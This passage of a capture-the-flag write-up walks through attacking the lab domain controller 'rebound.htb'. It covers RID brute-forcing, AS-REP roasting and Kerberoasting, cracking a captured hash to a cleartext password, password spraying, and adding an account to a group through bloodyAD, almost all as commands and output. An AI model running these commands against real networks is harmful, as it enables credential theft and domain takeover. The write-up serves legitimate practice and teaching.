

with an `READ` premission on non default share called `SHARED`
their isnt anthing specific on `Shared` permission


we dont have any write permission on the share


lets try enumerate the users using ldap with nxc module `--users`


seems like we can't , instead we can try rid-brute force the users
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ nxc smb 10.129.232.31 -u "geust" -p "" --rid-brute 
SMB         10.129.232.31   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                                                
SMB         10.129.232.31   445    DC01             [+] rebound.htb\geust: (Guest)
SMB         10.129.232.31   445    DC01             498: rebound\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.232.31   445    DC01             500: rebound\Administrator (SidTypeUser)
SMB         10.129.232.31   445    DC01             501: rebound\Guest (SidTypeUser)
SMB         10.129.232.31   445    DC01             502: rebound\krbtgt (SidTypeUser)
SMB         10.129.232.31   445    DC01             512: rebound\Domain Admins (SidTypeGroup)
SMB         10.129.232.31   445    DC01             513: rebound\Domain Users (SidTypeGroup)
SMB         10.129.232.31   445    DC01             514: rebound\Domain Guests (SidTypeGroup)
SMB         10.129.232.31   445    DC01             515: rebound\Domain Computers (SidTypeGroup)
SMB         10.129.232.31   445    DC01             516: rebound\Domain Controllers (SidTypeGroup)
SMB         10.129.232.31   445    DC01             517: rebound\Cert Publishers (SidTypeAlias)
SMB         10.129.232.31   445    DC01             518: rebound\Schema Admins (SidTypeGroup)
SMB         10.129.232.31   445    DC01             519: rebound\Enterprise Admins (SidTypeGroup)
SMB         10.129.232.31   445    DC01             520: rebound\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.232.31   445    DC01             521: rebound\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.232.31   445    DC01             522: rebound\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.232.31   445    DC01             525: rebound\Protected Users (SidTypeGroup)
SMB         10.129.232.31   445    DC01             526: rebound\Key Admins (SidTypeGroup)
SMB         10.129.232.31   445    DC01             527: rebound\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.232.31   445    DC01             553: rebound\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.232.31   445    DC01             571: rebound\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.232.31   445    DC01             572: rebound\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.232.31   445    DC01             1000: rebound\DC01$ (SidTypeUser)
SMB         10.129.232.31   445    DC01             1101: rebound\DnsAdmins (SidTypeAlias)
SMB         10.129.232.31   445    DC01             1102: rebound\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.232.31   445    DC01             1951: rebound\ppaul (SidTypeUser)
SMB         10.129.232.31   445    DC01             2952: rebound\llune (SidTypeUser)
SMB         10.129.232.31   445    DC01             3382: rebound\fflock (SidTypeUser)
```

Lets save the users in an `username.txt` file so we can try to brute force the password of any user
: )
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ nxc smb 10.129.232.31  -u 'guest' -p '' --rid-brute 10000| grep SidTypeUser | cut -d'\' -f2 | cut -d' ' -f1 | tee username.txt
Administrator
Guest
krbtgt
DC01$
ppaul
llune
fflock
jjones
mmalone
nnoon
ldap_monitor
oorend
winrm_svc
batch_runner
tbrady
delegator$
```

we goona rid-brute force user until 10k

seems like none of the user got an hit 


we can try for asrep-roasting with nxc module `--asreproast`
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ nxc ldap 10.129.232.31 -u "username.txt" -p '' --asreproast output.txt
LDAP        10.129.232.31   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:rebound.htb) (signing:Enforced) (channel binding:Always)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
LDAP        10.129.232.31   389    DC01             $krb5asrep$23$jjones@REBOUND.HTB:8a103f7d081bab4c06cc344041f6712a$44e843e6f4e43d2c10e7b2852138587a49784622ccb689df4a7af59c426875cb46a2d5bb5acf30dba9052ecb3c95effc2006ecff9575335730659c24fc5fc52ce9d6cc086b44a00750fe40e9d40eddb0272f3342fc04a9aeaf22aef9bb79dcaf2947a20e2424bf0eaca741876ffd2687013b28325921c0796ba787333f7a53bd65274a34e1c24e2ce5bfda1c5bff56c51efe9624202f9579e2c146b981c2295b177566f7363d0b6828222e515c929de42d5232ddf60e613915a038d0035c2e0d4605d6fae13d7949c4be9dc04222aab6e983b826b0dccfc695428fa6ab02065a10881aaf34a80f5cf637
```

i wasnt able to crack the hash with hashcat
https://www.thehacker.recipes/ad/movement/kerberos/roasting/kerberoast

mentioned we can kerbreoasting without pre-authentication ! if we know a user whose pre-authentication disabled here its jjones we can  kerberoast one or more service account

we can use impacket to perfrom this attack
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ impacket-GetUserSPNs -no-preauth 'jjones' -usersfile username.txt -dc-host 10.129.232.31 'rebound.htb/'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] Principal: Administrator - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Guest - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
$krb5tgs$18$krbtgt$REBOUND.HTB$*krbtgt*$2c72b67bdea116921f68d7ac$44ac27870a98d7b3f103c7a357ce0cd87cfac4706af03e06443d1452ca52d06639bfe919b337d80abeda2553f4eb34f3c229c1e2b71ab6ee5394afa2f159a3c0dbe19a686ff0550c9fabf95f68aa29244d3f43aa545a6ce66220a4f0566b64e4ef9035c224b98c0d5de6ec74317c57cf74243a0bf13957f373675105ed17c3bf317bebd003ffdc73e992edcf3ecefae62f7468d642ec6ce5e40091e067b45408d2137fbc5b6a7c6e9d28b750197ac842c11fec8ec567b3698e84b2e121924f6b33c92fd92440077447541727f7c89b36f1ee91716bc71638b9b5c605277c09921d49580088eeaf4fd3e6f6f514b5242e51be6962e0200b1b33606d1b6bf9ec839e6a6ef74e7b597ac0e42293feff9d6717fc0c5772d5ab85233d0c1a0023b0fe7baf1306936cafdbab37578f7d755c330d9eea2b57a114d29bf9f9936440df2987275f23e1cbc2f94bba1cb57636591ee305e7f9ad1247e87f455f5040ca72cbc5b28354d8a440e0f5ac039981a0b47057466bf28eecb0210ba0f542eee8b546f0a0a8462d312f1073f38c41030d7cc688ad2f6386aa1da3520e51f02c3da2d1447ed8baaf403adaadc49d6e20cc388f9ca31a89ebb33a143046834fde9e9b33dcbfee4b55f7a90d110c41ed184635348c725d21675db6f41f480b70758bf0d0f3cab711dd47a5baf18b39dfa735655852d527a653b6bca5fa9d4f61b4c62268a4ea8632f04057308752e9166061565bea73b2f12251bbd75df724c0c7830a492206181fa51a404db121b17a5c271a7f7dbb11beb40f2f40940b56c8d7101851527b35e81151ca4e7b690c78bb23737ad8f9512bf7a54418496585e36c91027da14dbd0410618866a08a970e517f8e1f19d7e0fa3572ab1281e15233a6f33d6d5bce57756d5c41e00fb8a6c9b982054e6f9ce54c20099fc8d8cc94fbd022527f5e0e66899cd9b2367b3eb041a0e0bf261cfad76597227f4aef6cbbaf3f7db142124ecac2dceacd65fbaf243f63dc0825685575347f2df62602ea9719154261a078f50b76ff03d98f812da642db47cf537f2c4693ee46edb24f35a80458ca13df5f4e356dc12ca3cab113dcca7fab63d51b046181dbc8df61bcc05973588e38ddc0557e9b10ffecf3a58d7bc72eba046cb70e3493fdc0b9ab4a4eb657968daa31a7c7be4ea6ce740702e1654e4238ae4e89ad4507edba08f47a3e0137ea708c03209601292137bea1c529f98066bb3e189400563a20495617bbbf6efc470ceb91ad535b20da1c5c0389f715b265e3c9f12fe21e8d8e69285205d42ccf13582dd6c8d30d5cb9b5a4db32af48f63206ade33c3489b9d727dd5f6e4c511d0904a93e1102a6621f29e7013b59196d3e5d11b1b50754aef9779bf8dd9145bf3dcf9fc98c412394e584ceccf0bdf6b83ac37fb94d775166172d53187bcf6377b5ba1ae268df94b39dd4808109ee811ab1a5bc7eb439
$krb5tgs$18$DC01$$REBOUND.HTB$*DC01$*$7d9ed4d93573394c392cd813$dac4444b5d51a46507a86af56c1ee28faa794caa419481c7230a7af3202558986268c78a25b2088d2105e558aa23668d3566b06903db958ec56c0f0903c22ae6030a85efedb19a3c855b35481d81bcce79b70ff9d66e0815aaaa45cfafc8fcb0a319b40410d459f90646a09e2e04c3631ec7d70e3f50d267025840b78fb62a1614c127c8ddb3bf100644c9ba24cb28efae6f6f309634cd69f31fc338bc650c7307c74760f598eb75de95850f7d3c2a31ff15f8d23a76727260380287fc7440e8bb30905a0fadb8e6f5b62667a9e85aeed0d214f37c6435e3d656393bfcd97677d12eaf1a42e831219f5d8c344c2a2fdd65f71a1de49e25ebc3fae82261c3ec1ff3f62f2cd66def4b9e26583e34160f77315e7f5bf36e0d6233124e05e61406482be667b372742ceca64cb9dd9009b096335df465eb8947c7d2e97d2fa9a45789fad635aa92c2d0390a8d4841b5996f409a4d6a5138d0db5ff4799528fca400a8386551ea2ba035a543eef6be5d72a4589cca0e8ce055d695d793e00ed718ece899b5dc45a02ef9b93398d490d333d95ea0fcdfe71fc6a43813564ae3e3f8ee2aa485309ddf348fb3135b03d2174e84126fc1728dc1051f13c7d9a750b40762c550f0ef7af97fa47b15302a31c63883b9aa51e53aab5e05688cd54164f03964c630af741a0a6c7c7a8c26f33634c2156eb1fbb41cda1688ba27ea82990c99c828d52e8176b9006d48f1b5be2ba8f1c49d637fda37a363a04fa7f1c5fa1610334549d25e00a1c669e0f97eedf9c48e39c19ef6b642303d4ecea9fcd1b1a8dd42b6e0e5a0459b5a258bd41d5b3428d351a743a0db35d24b6e0975638946757c91572f7b3177ed9e6c37cec91cbf17226f1b67dd07ace6e15d91d8a5a81991744f6ebbbbb52cb5923da45c933facc5c6ed8bb7bc3397973844a54c463716accc1f6106085e524e9c3ea6c6c2c6d3c1728224853a3c78165664fe6d033c2f6ccb5f6b493e910b6cacc83f1433eae130b8acdc43b89a8c113d9567512cd448a76c067bd5126c53deaba6519d86f9fb9f1e4ed625104b0762a81d0ec6ccd216db0be0a1735fa9429050cd9577ea42a120ce7b9270426e9fafc5b3d1232ce11785fbffc925e964e10336eb7328f216899e99874564641c643de9c6372f8f47660dc947f11bab8c6f4951a7e4f0a049980df060e17b111b36f512299459598656402e0bf7219161c9a4450f0fd70e253cb36e5d6f2d5197f8f3740c68a4a43b5cbb17ad5a1a2054c8a53698a6f7ee4166f2356e73a58bdb9f96282e212be4e853ac0ab9f0fea371cabcd4dcda257554296021b81e96a87dc46f98bd0b55de3411f82ac3b8c4ef0ed0b78e6ccb1781
[-] Principal: ppaul - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: llune - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: fflock - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: jjones - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: mmalone - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: nnoon - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
$krb5tgs$23$*ldap_monitor$REBOUND.HTB$ldap_monitor*$272b5e9f059e94b3659cbb3d3e2b63d2$dd136a264a6560be11a8932daa2572356a44e27de13d1d026eef59759fea4a253d66f8fc40e64eeba5939289bfe10cff18d7dad58db7538ad62ee859dede38efd1013c6f0f8ed416a0bc5b355f1e96a9a20745977072e2da4bd7e0f9be4a58cfdac5af1eb367d847ea5f414ba8397092e9943fff9e145cbd52f158d3e0989dfe5d33a217023896c4ebd91907d8454e3b7a37adf7a355941db5e3a4432ef3d32b1173ada70f3b2793448e98796d8b285229f38230dde75487393f8ae41020f00b8a6439020455dc16c15b65374fdc6722ee3c12eed85cc319fc8bb7997bda8c0ecdbfe6f0b00dff5f15045cc3e9f1f16b91ca347a29fecc27e08422e5268fb82cbf5e36c666bcca135a5bb842eee7b463ffd15363e57b14a05c140b58097179d453017a22f668932e8e0e34c0124569afe67128998678f5fafde41b336207d9aa5509c86916391319c358ddd9bfb528e72748faff8087e7958362b6be99a15c7e5c8f01588f6733b3a9039417269f0c75463c83dae3375c5c1b93a9718dc8fa93b5774e4f151da925397cfa413ce84b4a2aa4b71bf045230e207d6fa8828073681a47081c4f28e372cd9ef23409c0d1c355bcdc6fb147bb768bb4effe02745453d6ed67cf09294a2d6dedf2979456eb6f0401425353dd3b538849c0c0d1b3c212b21032706eef0f954e67839c82a550dc57c21ee80abbdc5e2127d4e5cd39a0d52cd9b36b06a3a3ac36b57ada707f157930e2bb6eb17ceeecaa8a6d42cd1be42e7df72159c252fc028a8478a7a3e36d598fbed4d55ecf9099d5153083baf44567a7962d596ce2c80de146589118762635de621d0d17908ebf799f987bd4643b1ce6335be6473c62e847f3efca738da5fd86afd3652d9e8e5407eb024112eaa49fe8595298abdb5ab0b079833999b38b8a0b1339c3b2bd1d00ffcc585a7b2ca033f783b3f8de471af2631b7df05d34e0352c58465e4b2479e0e3ace3aa1cd5dfbc4500315b0b8c1178a236b8dbfde9a7516fc83214f28ffbd1ca1680695d60c54f0535b93c0ddbf564c8bbd5b88fe4a89ae23773af1eb425a803aa8415e744e037b6a687617da14b45a7774e54d78cc6e85b4992d873687767ba30401083ead0a214f15acb656e6ee40fe7824cfa0ac130bf8156e55503875e11d75c585c5dd40c06d4b43de998d96478001431a6af8aaf7763d50c62399074def9aeba3b3c12800d4fe10a3122bb9a29db7f35723ee1263a78d0baa120b6dcb9ff0f44a8f87e2af39748d5d16d586fecf382b8eb3197678a17569e424f911b2ae5eb00dbbac67dd17d2a04277e66307ddf2078c9ba4963fe09da3843dc0d771d99da015442529633ad
[-] Principal: oorend - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: winrm_svc - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: batch_runner - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: tbrady - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
$krb5tgs$18$delegator$$REBOUND.HTB$*delegator$*$62e58f6a7273e602d2ed9b52$b87b28d54baa3e1095d47f6ee915aa0224b4f23ecd92f800eeb23ac8c48a7cb4e452cf0d6a971b4a8de7bc8fce13c16139944d83374b99b59e26939c4c10763b9762c0c53ebda7ea248568f3835b52456287fc82f9447c4ac23d165c2e913f2568506d91d17f5f37ab9bb232dc3f960c7c80e0fd2e5a2393964f6bf4c023237c9eebd99bccc569646888077c8a3c12a4a21941ce2f209da1252fd9b90746c820ea5cc8765ccce52cec974a64c25d334c129954a744f28490c07dc33cce91523ab659f13663f758af6b34bf20d649c9535447f582215ff6cdaad9b97b4807a874587a0bee5ab8858a3c116a41d3c31221f276495536e2cb2b542fcde2f23f27c0db17655ed714b4670b376279bbd60c7d5245a78e9d0e047b7b8ee7f3ccc239b2a57687a2bb6d8b8beb58b1d929bc7ee967e36a27beb82e146a3cf879395a72c8f5d93ddd60694972d26a984dd155a38e67f9322bfafa11f558df2971df7f7a81a2a5254276f6127f020872d28f827c448bcad19455ba939130a2165be823477082f0814e777fdda1ac42cd44bdd44f61a9cd72f79bc12be3ff5545a33164a7257e1076122700cf9b7ee3a345e059bc7dea1721260791db61550f3c737b9de520d86d9daf0e8dc35d1b0d60f56e39f03eb68a9d7479cfd7e68c752a6999d199904f7f7020c6d2fb7163d86c6ac2e563c68110d7fd697d4ec09cbdab7cc88a64c79f13ad6edecf666a634f883020b469c140dd4acf87ba79f55c08f4c1b8c00e827435eb6424463c1fdcc92dde6297a32be6b170d12d70f5a79578561b51c127ef3e1b7b742eb31ba597d7f140e0aa5b6ac16ae055d46c1fcb39601cb35e72a6157bc8f8458509f7c5812eb0206c5e1b7bde2fd0816355b4fc8bb9f075a0cef3e98fb1c73fd05d460edd464ef34b83f41fbb59de6463ddb1a3d835fcb69856167938a650b4277e85054c300e9d9e75636385272cd0bc2558620b1472050ce4204af045684b62cf938c970c72a0fc167f5abbf25fddb549f2c9f79e43bcae0974d5c389949aedbe9e528fb0e004dd089f5d0afe7c634c26deea4f9aa1ea7da58856a8533047be6cec2d7f65aecc1fbd5da66b91488800ce79024779835eb187b3e8550628dd7bdd9c0223e7234257c4bc890a8a9bfb83b9f9640231d109829685f0d730f41e03e0db4c788863d6f7b44789c25ed21b3cbe6a0b0b9b4f6c52bd55baf166338cfe90fbc99a657a0bdfd2b9ceb8df129b43ddf364416eac54bab2789b64532fdf04e9345ff1dfb6d0763bbc93eb54150e27932cfe5eeacbf611eb2096069b826d553f7b553aa5152a512e11061d4360aa72f5c73e618833aad9f28708708bcf7962458a8e3679
```

lets try crack this with hashcat now ! ldap_monitor indeed got cracked 

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ hashcat ldap_monitor /usr/share/wordlists/rockyou.txt 
hashcat (v7.1.2) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #01: cpu-skylake-avx512-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2845/5691 MB (1024 MB allocatable), 8MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

13100 | Kerberos 5, etype 23, TGS-REP | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 514 MB (2248 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5tgs$23$*ldap_monitor$REBOUND.HTB$ldap_monitor*$272b5e9f059e94b3659cbb3d3e2b63d2$dd136a264a6560be11a8932daa2572356a44e27de13d1d026eef59759fea4a253d66f8fc40e64eeba5939289bfe10cff18d7dad58db7538ad62ee859dede38efd1013c6f0f8ed416a0bc5b355f1e96a9a20745977072e2da4bd7e0f9be4a58cfdac5af1eb367d847ea5f414ba8397092e9943fff9e145cbd52f158d3e0989dfe5d33a217023896c4ebd91907d8454e3b7a37adf7a355941db5e3a4432ef3d32b1173ada70f3b2793448e98796d8b285229f38230dde75487393f8ae41020f00b8a6439020455dc16c15b65374fdc6722ee3c12eed85cc319fc8bb7997bda8c0ecdbfe6f0b00dff5f15045cc3e9f1f16b91ca347a29fecc27e08422e5268fb82cbf5e36c666bcca135a5bb842eee7b463ffd15363e57b14a05c140b58097179d453017a22f668932e8e0e34c0124569afe67128998678f5fafde41b336207d9aa5509c86916391319c358ddd9bfb528e72748faff8087e7958362b6be99a15c7e5c8f01588f6733b3a9039417269f0c75463c83dae3375c5c1b93a9718dc8fa93b5774e4f151da925397cfa413ce84b4a2aa4b71bf045230e207d6fa8828073681a47081c4f28e372cd9ef23409c0d1c355bcdc6fb147bb768bb4effe02745453d6ed67cf09294a2d6dedf2979456eb6f0401425353dd3b538849c0c0d1b3c212b21032706eef0f954e67839c82a550dc57c21ee80abbdc5e2127d4e5cd39a0d52cd9b36b06a3a3ac36b57ada707f157930e2bb6eb17ceeecaa8a6d42cd1be42e7df72159c252fc028a8478a7a3e36d598fbed4d55ecf9099d5153083baf44567a7962d596ce2c80de146589118762635de621d0d17908ebf799f987bd4643b1ce6335be6473c62e847f3efca738da5fd86afd3652d9e8e5407eb024112eaa49fe8595298abdb5ab0b079833999b38b8a0b1339c3b2bd1d00ffcc585a7b2ca033f783b3f8de471af2631b7df05d34e0352c58465e4b2479e0e3ace3aa1cd5dfbc4500315b0b8c1178a236b8dbfde9a7516fc83214f28ffbd1ca1680695d60c54f0535b93c0ddbf564c8bbd5b88fe4a89ae23773af1eb425a803aa8415e744e037b6a687617da14b45a7774e54d78cc6e85b4992d873687767ba30401083ead0a214f15acb656e6ee40fe7824cfa0ac130bf8156e55503875e11d75c585c5dd40c06d4b43de998d96478001431a6af8aaf7763d50c62399074def9aeba3b3c12800d4fe10a3122bb9a29db7f35723ee1263a78d0baa120b6dcb9ff0f44a8f87e2af39748d5d16d586fecf382b8eb3197678a17569e424f911b2ae5eb00dbbac67dd17d2a04277e66307ddf2078c9ba4963fe09da3843dc0d771d99da015442529633ad:1GR8t@$$4u
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*ldap_monitor$REBOUND.HTB$ldap_monitor*...9633ad
Time.Started.....: Mon Nov  9 06:00:05 2026 (4 secs)
Time.Estimated...: Mon Nov  9 06:00:09 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:  2828.6 kH/s (2.46ms) @ Accel:1024 Loops:1 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 13041664/14344385 (90.92%)
Rejected.........: 0/13041664 (0.00%)
Restore.Point....: 13033472/14344385 (90.86%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: 1addressbo -> 1COLORADO
Hardware.Mon.#01.: Temp: 59c Util: 78%

Started: Mon Nov  9 06:00:04 2026
Stopped: Mon Nov  9 06:00:11 2026
[ble: elapsed 7.136s (CPU 419.4%)] hashcat ldap_monitor /usr/share/wordlists/rockyou.txt 
```

`ldap_monitor : 1GR8t@$$4u `
Nothing specifc on smb share with the newly found credentials


nor do we have any winrm access


lets tro further enumerate by mapping with bloodhound : ) 
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound/BD]
└─$ bloodhound-ce-python -u ldap_monitor  -p '1GR8t@$$4u' -d rebound.htb  -ns 10.129.232.31 -c All
```

Doesnt seems to have any abusbale ACL for ldap_monitor we can try to spray the password to different username we grabbed before with rid-brute force


luckliy we got the hit to the user `oorend`


he has an `AddSelf` to servicemgmt group and `GenricAll` priv to Service users ou : ) 

```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ bloodyAD --host 10.129.232.31  -d rebound.htb  -u 'oorend' -p '1GR8t@$$4u' add groupMember 'SERVICEMGMT' 'oorend'
[+] oorend added to SERVICEMGMT
```
we can add the user to group , now lets abuse the `GenricAll` privileige on the OU however i wasnt able to abuse with impacket-dacledit 
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
└─$ impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'oorend' -target-dn 'OU=SERVICE USERS,DC=rebound,DC=htb' -use-ldaps 'rebound.htb/oorend:1GR8t@$$4u'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] automatic bind not successful - invalidCredentials
```

instead i used `BloodyAD` to abuse and which 
```bash
┌──(penguin㉿0X0F)-[~/OSCP/Rebound]
